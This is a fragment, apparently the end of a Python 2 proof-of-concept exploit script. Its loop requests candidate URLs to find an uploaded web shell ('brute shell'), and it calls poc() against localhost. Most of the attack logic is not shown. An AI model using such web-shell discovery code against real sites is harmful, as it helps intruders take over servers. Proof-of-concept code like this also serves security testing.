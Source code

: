 ```
        req = requests.get(url=shell)
        if req.status_code == 200:
            print 'brute shell:',shell
            break


if __name__ == '__main__':
    poc('http://localhost/')

```